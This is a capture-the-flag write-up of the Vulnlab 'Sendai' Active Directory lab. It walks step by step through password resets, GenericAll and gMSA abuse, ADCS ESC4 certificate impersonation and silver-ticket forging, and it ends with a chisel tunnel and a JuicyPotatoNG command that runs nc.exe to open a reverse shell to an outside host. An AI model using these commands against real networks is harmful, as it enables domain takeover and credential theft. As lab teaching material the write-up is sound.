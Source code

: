 
# Vulnlab - Sendai

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus           
80/tcp    open  http          Microsoft IIS httpd 10.0  
|_http-server-header: Microsoft-IIS/10.0
88/tcp open  kerberos-sec
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: DNS:dc.sendai.vl            
| Issuer: commonName=dc.sendai.vl                                     
|_http-server-header: Microsoft-IIS/10.0                
| http-methods:                                
|_  Supported Methods: GET
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc.sendai.vl
| Issuer: commonName=dc.sendai.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-04T16:24:01
| Not valid after:  2024-11-03T16:24:01
| MD5:   6198fc32527e478294e38fd5c6a2b81e
|_SHA-1: 73b4d1026b49e0cb9c0d633982377e74f32b7db3
|_ssl-date: 2024-05-05T16:28:56+00:00; -1m22s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  unknown
56740/tcp open  unknown
56744/tcp open  unknown
```

## PORT 80/443

<img src="https://i.imgur.com/2xyBd1B.png"/>
 
Running gobuster, we can find `/service`

<img src="https://i.imgur.com/41s7K0i.png"/>

However this endpoints shows that we don't have access to it

<img src="https://i.imgur.com/YgAmiLH.png"/>
## PORT 445
Enumerating smb shares with anonymous login, we'll see `config`, `sendai` and `Users` share, where config was not accessible, Users didn't anything but sendai had some interesting files

<img src="https://i.imgur.com/mQaCMNk.png"/>

<img src="https://i.imgur.com/OjZZNAR.png"/>

<img src="https://i.imgur.com/kSTgBfG.png"/>

The incident talked about users having weak passwords, all users will be prompted to change their password on logging in, the transfer directory had user's directories

<img src="https://i.imgur.com/Ob5kSkE.png"/>

## Resetting domain user's password

These users can also be enumerated through `lookupsid` by brute forcing sids

<img src="https://i.imgur.com/cNM7HDk.png"/>
On trying to login with null password, we'll get two users with password to be changed

<img src="https://i.imgur.com/bWjdAf4.png"/>
Password can be changed with `impacket-smbpasswd`

```bash
impacket-smbpasswd  sendai.vl/Thomas.Powell@dc.sendai.vl -newpass '$aduwu123'
```

<img src="https://i.imgur.com/2naixZH.png"/>

<img src="https://i.imgur.com/3NWYOCE.png"/>
From config share, we can grab `.sqlconfig` having credentials to MSSQL

<img src="https://i.imgur.com/iOaiZ2c.png"/>

<img src="https://i.imgur.com/oQ0cAH9.png"/>

But this service isn't exposed to us so moving on to enumerating the domain with bloodhound

```bash
python3 bloodhound.py -u sqlsvc -p password -d sendai.vl -c all -dc dc.sendai.vl -ns 10.10.104.41
```

<img src="https://i.imgur.com/JM5mhTv.png"/>

Thomas.Powell is a member of `Support` group has `GenericAll` on `ADMSVC` group which has `ReadGMSAPassword` on `MGTSVC$` account. We'll need to add thomas in ADMSVC group, read the NThash of MGTSVC account

<img src="https://i.imgur.com/BRPHbql.png"/>
## Abusing GenericAll and reading GMSA password

Through` bloodyAD` we can add thomas in ADMSVC group having genericall rights

```bash
 python3 bloodyAD.py  --host "10.10.104.41" -d 'sendai.vl' -u 'thomas.powell' -p '$aduwu123' add groupMember ADMSVC thomas.powell
```

<img src="https://i.imgur.com/cS1zoYy.png"/>

With gmsadumper script or with netexec we can dump the nthash of mgtsvc account

```bash
python3 gMSADumper.py -u 'thomas.powell' -p '$aduwu123' -d sendai.vl -l 10.10.104.41
```

<img src="https://i.imgur.com/ina1lCb.png"/>

This account can login on DC as it's part of `Remote Management` group

<img src="https://i.imgur.com/uwRvgKc.png"/>

Checking the privileges after logging in through evil-winrm, it doesn't have any privilege that we can abuse to get local admin

<img src="https://i.imgur.com/jxAX90R.png"/>
## Obtaining clifford's password

From the running process, we have helpdesk which doesn't normally run on a system

<img src="https://i.imgur.com/IxlngBF.png"/>

Enumerating the system with `PrivescCheck.ps1`

<img src="https://i.imgur.com/yO9Rckp.png"/>

This will list down the running processes from where we'll find the clifford.davey's creds

<img src="https://i.imgur.com/NPt3pB3.png|"/>

## Enumerating ADCS

This user belongs to `CA-Operators` group, so this likely will be able to enroll in a custom template, enumerating templates with `certipy`

<img src="https://i.imgur.com/Vgev4wX.png"/>
## Escalating privileges through ESC4

```bash
certipy find -u clifford.davey -vulnerable -target dc.sendai.vl -dc-ip 10.10.115.126 -stdout
```

This lists down a template `SendaiComputer` which has EKU set to `Client Authentication` that can be used to authenticate on the system and ca-operators group has Full control over this template which means we can edit this template and impersonate as the domain admin, which is known as ESC4 (access control) abuse

<img src="https://i.imgur.com/mQUF4HH.png"/>

<img src="https://i.imgur.com/A10lXkN.png"/>

With certipy, we can change the configuration of this template to allow domain users to enroll for this template and impersonate any user 

```bash
certipy template -u clifford.davey -target dc.sendai.vl -dc-ip 10.10.115.126 -template SendaiComputer
```

<img src="https://i.imgur.com/YycVHAi.png"/>
<img src="https://i.imgur.com/FEVEUWg.png"/>

```bash
certipy req -u 'clifford.davey' -ca 'sendai-DC-CA' -dc-ip 10.10.115.126 -target dc.sendai.vl -template 'SendaiComputer' -upn administrator
```

<img src="https://i.imgur.com/pCSgIFn.png"/>

```bash
certipy auth -pfx ./administrator.pfx -domain sendai.vl
```

<img src="https://i.imgur.com/vgGRaVx.png"/>

## Escalating with SeImpersonate privilege

Another way of escalating privileges is through mssql, since mssql is running internally, having access on the machine we can port forward with`chisel`

```bash
chisel server -p 2222 --reverse
chisel.exe client 10.8.0.136:2222 R:socks
```
<img src="https://i.imgur.com/hSVXA3l.png"/>

But we'll get login denied for sqlsvc account

<img src="https://i.imgur.com/7dUxhoi.png"/>

With `ticketer,` forging a silver ticket for accessing MSSQL service as an administrator

```bash
ticketer.py -domain-sid S-1-5-21-3085872742-570972823-736764132 -domain sendai.vl -spn MSSQL/dc.sendai.vl -nthash hash Administrator
```


<img src="https://i.imgur.com/iOKxMa4.png"/>

<img src="https://i.imgur.com/ZlBgszU.png"/>

Enabling `xp_cmdshell` which will allow us to execute system commands as sqlsvc

<img src="https://i.imgur.com/DDGiMXV.png"/>

The difference here is that we'll have `SeImpersonate` privilege, which can abuse to get local admin

<img src="https://i.imgur.com/CvG90gg.png"/>

<img src="https://i.imgur.com/tdEDy5t.png"/>

Using `juicypotato-ng` to abuse the privilege and get a shell a SYSTEM

```bash
.\JuicyPotatoNG.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\Users\sqlsvc\nc.exe 10.8.0.136 4444 -e cmd.exe"
```

<img src="https://i.imgur.com/22805js.png"/>

# References

- https://exploit-notes.hdks.org/exploit/windows/active-directory/smb-pentesting/
- https://github.com/itm4n/PrivescCheck
- https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-services
